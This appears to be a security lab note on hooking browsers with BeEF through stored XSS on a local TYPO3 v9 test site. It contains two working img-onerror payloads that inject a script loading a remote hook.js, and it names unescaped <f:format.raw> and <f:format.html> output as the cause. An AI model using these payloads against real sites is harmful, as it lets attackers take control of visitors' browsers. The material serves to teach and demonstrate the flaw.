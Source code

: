 # Just BeEF

## Attack

http://typo3v9-hack.ddev.local/index.php?id=84

* the payload of BeEF to be executed

```
http://typo3v9-hack.ddev.local:3000/hook.js
```

* 1st attempt

```
Great!<img src="great" onerror="quot=String.fromCharCode(34);document.write('<script src='+quot+'http://typo3v9-hack.ddev.local:3000/hook.js'+quot+'></script>')">
```

* 2nd attempts

```
Great!<img src="great" style="display:none" onerror="script=document.createElement('script');script.src= 'http://typo3v9-hack.ddev.local:3000/hook.js';document.body.append(script);">
```

## Security Vulnerability

This attack relies on some insecure extension implementation that either using `<f:format.raw>` or
`<f:format.html>` in order to make use of insecure markup.